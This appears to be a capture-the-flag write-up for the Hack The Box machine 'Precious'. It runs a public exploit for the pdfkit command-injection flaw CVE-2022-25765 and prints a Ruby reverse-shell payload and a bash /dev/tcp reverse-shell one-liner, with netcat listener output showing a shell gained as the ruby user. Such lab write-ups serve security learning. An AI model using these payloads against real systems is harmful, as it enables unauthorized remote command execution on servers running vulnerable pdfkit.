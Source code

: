 - viewing and running the script
```bash
┌──(kali㉿kali)-[~/htb/precious]
└─$ python3 51293.py                      

UNICORD Exploit for CVE-2022–25765 (pdfkit) - Command Injection

Usage:
  python3 exploit-CVE-2022–25765.py -c <command>
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port>
  python3 exploit-CVE-2022–25765.py -c <command> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -s <local-IP> <local-port> [-w <http://target.com/index.html> -p <parameter>]
  python3 exploit-CVE-2022–25765.py -h

Options:
  -c    Custom command mode. Provide command to generate custom payload with.
  -s    Reverse shell mode. Provide local IP and port to generate reverse shell payload with.
  -w    URL of website running vulnerable pdfkit. (Optional)
  -p    POST parameter on website running vulnerable pdfkit. (Optional)
  -h    Show this help menu.
```

- Running the script 51293.py generates a command injection one-liner.
	- It is written in Ruby but can be swapped out for your favorite revshell one liner after %20
```bash
┌──(kali㉿kali)-[~/htb/precious]
└─$ python3 51293.py -s 10.10.11.189 42069


        _ __,~~~/_        __  ___  _______________  ___  ___
    ,~~`( )_( )-\|       / / / / |/ /  _/ ___/ __ \/ _ \/ _ \
        |/|  `--.       / /_/ /    // // /__/ /_/ / , _/ // /
_V__v___!_!__!_____V____\____/_/|_/___/\___/\____/_/|_/____/....
    
UNICORD: Exploit for CVE-2022–25765 (pdfkit) - Command Injection
OPTIONS: Reverse Shell Mode
PAYLOAD: http://%20`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.11.189","42069"))'`
LOCALIP: 10.10.11.189:42069
WARNING: Be sure to start a local listener on the above IP and port.
EXPLOIT: Copy the payload above into a PDFKit.new().to_pdf Ruby function or any application running vulnerable pdfkit.
```
- I started a nc listener and used bash
```bash
┌──(kali㉿kali)-[~/htb/precious]
└─$ nc -lnvp 42069             
listening on [any] 42069 ...
```
- and used bash
```
http://%20\`bash -c 'exec bash -i &>/dev/tcp/10.10.14.5/42069 <&1'
```
- ![[Pasted image 20241111115202.png]]
```bash
┌──(kali㉿kali)-[~/htb/precious]
└─$ nc -lnvp 42069             
listening on [any] 42069 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.11.189] 37550
bash: cannot set terminal process group (676): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$ whoami
whoami
ruby
ruby@precious:/var/www/pdfapp$
```